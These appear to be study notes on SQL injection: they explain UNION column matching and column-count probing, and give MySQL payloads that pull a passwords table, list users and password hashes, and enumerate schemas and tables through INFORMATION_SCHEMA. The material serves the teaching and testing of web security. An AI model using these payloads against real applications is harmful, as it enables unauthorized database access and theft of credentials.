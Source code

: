 #### Union Clause

If we use the union clause it is important that we ensure that the data type on the selected columns are the same.

It can appear that we query two columns from a table and want to union it with another single column. In that case, we have to add another column and fill it with junk. For example `NULL`, because it fits all data types.

```sql
SELECT * from products where product_id = '1' UNION SELECT username, NULL from passwords
```

#### Union Injection

To check the amount of columns we can use the `ORDER BY` or `UNION` function. If we exceed the number of columns we generate an error and therefore know the maximum number.

```sql
anything' UNION select 1,2,3-- 
```
```test
Dont forget the whitespace after the double dash!
```

As a part of our `UNION` injection we can try to determine more information about the database.

| Information       | Payload |
| -----------    | ----------- |
| Comments      | `SELECT @@version` |
| Current User      | `SELECT user();`, `SELECT system_user();` |
| List Users      | `SELECT user FROM mysql.user; — priv` |
| List Password Hashes      | `SELECT host, user, password FROM mysql.user; — priv` |

#### Enumeration

To get data with a `UNION SELECT` we need to create proper `SELECT` queries. Therefor it is essential for us to know the schema conditions. This can be realized by enumeration.

In our first step, we want to know what databases are present on the system. A matching injection could look like the following:

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```

Now that we have an overview of the databases, let's see which one we are in.

```sql
cn' UNION select 1,database(),2,3-- 
```

An overview over the different tables could look like the following:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- 
```
